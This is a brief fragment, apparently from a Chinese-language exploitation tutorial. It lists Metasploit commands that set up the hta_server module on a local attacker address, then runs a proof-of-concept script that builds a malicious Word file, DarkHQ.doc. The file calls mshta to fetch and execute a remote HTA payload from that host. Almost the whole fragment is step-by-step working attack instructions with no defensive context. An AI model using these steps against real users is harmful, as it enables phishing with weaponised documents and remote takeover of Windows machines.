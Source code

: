 ```
.利用exploit/windows/misc/hta_server模块,并设置参数

use exploit/windows/misc/hta_server

set LHOST 192.168.43.79

set LPORT 8888

set SRVHOST 192.168.43.79

set target 1   （靶机是x86就设置为0）

exploit
```

5.复制生成的hta链接

6.运行poc，python RTF_11882_0802.py -c "mshta http://192.168.43.79:8080/GhNxAVQlLTSBRZf.hta" -o DarkHQ.doc
